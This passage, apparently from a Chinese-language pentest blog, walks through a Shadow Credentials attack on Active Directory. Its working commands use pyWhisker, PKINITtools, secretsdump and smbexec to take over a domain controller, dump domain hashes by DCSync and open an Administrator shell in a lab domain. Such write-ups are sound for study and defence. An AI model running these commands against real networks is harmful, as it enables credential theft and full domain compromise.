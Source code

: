 ```console
C:\Users\Marcus\Desktop> Whisker.exe remove /target:DC01$ /deviceid:<DeviceID>
```

## pyWhisker

如果拥有所需权限的帐户的凭据已知，则该技术也可以从未加入域的系统执行。Charlie Bromberg（[@_nwodtuhs](https://twitter.com/_nwodtuhs)）通过 Python 实现了 Whisker ，共发布了名为 [pyWhisker](https://github.com/ShutdownRepo/pywhisker) 的工具，以实现在未连接到域网络的主机上操作。

（1）执行以下命令，对域控制器账户执行攻击，生成的证书将以 .pfx 格式保存在本地，如下图所示。

```bash
python3 pywhisker.py -d "pentest.com" -u "Marcus" -p "Marcus@123" --target "DC01$" --action "add" --filename dc01
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427144154732.png)

（2）pyWhisker 得到的证书可以与 Dirk-jan Mollema（[@dirkjanm](https://twitter.com/_dirkjan)）的 [PKINITtools](https://github.com/dirkjanm/PKINITtools) 一起使用，以通过 KDC 进行身份验证，并请求以 .ccache 格式保存的 TGT 票据，如下图所示。

```bash
python3 gettgtpkinit.py -cert-pfx dc01.pfx -pfx-pass sR68YYFbN6WQIkdBxrol pentest.com/dc01\$ dc01.ccache
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427144427355.png)

（3）由于域控制器账户拥有所需特权，我们可以设置环境变量 `KRB5CCNAME`，通过 [Impacket](https://github.com/SecureAuthCorp/impacket) 套件中的 secretsdump.py 使用该票据，并执行 DCSync 来导出域用户哈希，如下图所示。

```bash
export KRB5CCNAME=/root/PKINITtools/dc01.ccache
python3 secretsdump.py -k pentest.com/dc01\$@dc01.pentest.com -no-pass -just-dc
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427144809803.png)

（4）此外，我们可以通过 Kerberos 的 S4U2Self 扩展协议，使用已获取的域控 TGT 为域管理员用户申请针对域控上其他服务的的 ST 票据。这里我们请求的是域控制器的 CIFS 服务，相关命令如下：

```bash
python3 gets4uticket.py kerberos+ccache://pentest.com\\dc01\$:dc01.ccache@dc01.pentest.com cifs/dc01.pentest.com@pentest.com Administrator@pentest.com Administrator.ccache -v
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427144954906.png)

（5）最后，我们通过设置环境变量 `KRB5CCNAME` 来使用 Administrator 用户的票据，并通过 smbexec.py 获取域控制器的最高权限，相关命令如下。

```bash
export KRB5CCNAME=/root/PKINITtools/Administrator.ccache
python3 smbexec.py -k pentest.com/Administrator@dc01.pentest.com -no-pass
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427145108108.png)
## Coerced Authentication
